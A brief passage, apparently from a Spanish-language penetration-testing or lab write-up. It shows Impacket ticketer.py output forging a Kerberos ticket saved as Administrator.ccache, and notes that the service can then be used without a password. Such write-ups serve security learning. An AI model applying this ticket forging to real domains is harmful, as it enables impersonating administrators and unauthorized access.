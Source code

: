 ```
/usr/share/doc/python3-impacket/examples/ticketer.py:843: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  encRepPart['last-req'][0]['lr-value'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in Administrator.ccache
```

Y ya con esto podremos utilizar el servicio sin necesidad de poner ninguna contraseña como hemos visto anteriormente.
